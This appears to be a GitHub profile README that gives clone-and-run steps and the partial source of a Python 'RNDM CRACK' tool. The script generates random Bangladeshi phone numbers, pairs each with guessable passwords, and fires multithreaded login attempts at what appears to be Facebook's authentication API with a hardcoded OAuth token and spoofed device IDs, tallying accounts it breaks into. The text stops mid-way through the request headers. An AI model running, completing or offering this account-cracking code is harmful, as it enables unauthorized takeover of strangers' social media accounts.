 rm_noorafridi123

git clone https://github.com/noorafridi/noor

cd noorafridi

git pull

python noorafridi.py

Nooriqbal123/Nooriqbal123 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#--------------------- [ INFO ] -------------------#
#DEVELOPER : NOOR AFRIDI
#CODE BY : NOOR AFRIDI
#OPEN SOURCE BY : BHOOT-X [NOOR AFRIDI]
#TOOL : RNDM CHECK
#INJOY THE OPEN SOURCE 
#ALLAH HAFIZ
#--------------------- [ MODEL ] -------------------#
import os
import time
import sys
from os import path
import urllib
import pip
import base64
import zlib
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
try:
        import os,requests,json,time,re,random,sys,uuid,string,subprocess
        from string import *
        from concurrent.futures import ThreadPoolExecutor as tred
except ModuleNotFoundError:
        os.system(f'pip install requests futures==2 > /dev/null')
except:pass
#--------------------- [ SEX ] -------------------#
jan = []
loop=0
oks=[]
cps=[]
twf=[]
#--------------------- [ CODE ] -------------------#
W='\033[1;37m' #WHITE
G='\033[38;5;46m'
F='\033[38;5;45m'
R='\033[38;5;196m'
#--------------------- [ LOGO ] -------------------#
fuck = """
88""Yb 88  88  dP"Yb   dP"Yb  888888 
88__dP 88  88 dP   Yb dP   Yb   88   
88""Yb 888888 Yb   dP Yb   dP   88   
88oodP 88  88  YbodP   YbodP    88   
===================================
[+] ADMIN : NOOR AFRIDI
[+] GITHUB: NOOR AFRIDI
[+] TOOL  : RNDM CRACK
[+] STATES: OPEN SOURCE
=================================== """
#--------------------- [ DEF-LOGO X CLEAR ] -------------------#
def x():
    os.system('clear')
    print(fuck)
#--------------------- [ DEF-XNXX ] -------------------#
def xnxx():
    print(f'{W}===================================')
#--------------------- [ MAIN ] -------------------#
def bhootxx():
    x()
    print('[1] RNDM CRACK')
    print('[2] EXIT');xnxx()
    xtx = input('[?] CHOICE : ')
    if xtx in '1':
        rndmx()
    elif xtx in '2':
        print('Allah hafiz ')
        os.system('exit')
#--------------------- [ RNDM ] -------------------#
def rndmx():
    x()
    print('[+] BD SIM CODE : 017,019,018,016 ');xnxx()
    dog = input('[?] CODE : ')
    x()
    try:
        print('[+] LIMIT : 999,9999,99999');xnxx()
        limit = int(input('[?] LIMIT : '))
    except ValueError:
            limit = 5000
    for nmbr in range(limit):
            xxx = ''.join(random.choice(string.digits) for _ in range(8))
            jan.append(xxx)
    with tred(max_workers=30) as tanox:
            x()
            tl = str(len(jan))
            print(f'[+] TOTAL UID : {str(len(jan))}')
            print(f'[+] USE JAPAN VPN COMING MORE OK IDS.......');xnxx()
            for psx in jan:
                ids = dog+psx
                passlist = [psx,ids,ids[:8],ids[:7],'bangla']
                tanox.submit(sexx,ids,passlist)
    xnxx()
    print(f'[+] TOTAL OK -{str(len(oks))}')
    xnxx()
#--------------------- [ MTHD ] -------------------#
def sexx(ids,passlist):
        global loop
        global oks
        sys.stdout.write(f'\r\r[+] [BHOOT FIND] [{loop}] [OK:-{len(oks)}]')
        sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        cat = {
                        
                        
                        
                        
                        
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',                              
                                'error_detail_type':'button_with_disabled',                                
                                'enroll_misauth':'false',                             
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        
                        
                        
                        
                        
                        bhoot={
                        
                        
                        
                        
                        
                                'Authorization':f'OAuth {accessToken}',
                                'X-FB-Friendly-Name':'authenticate',
                                'X-FB-Connection-Type':'unknown',
                                'User-Agent':None,
                                'Accept-Encoding':'gzip, deflate',
                                'Content-Type': 'application/x-www-form-urlencoded',
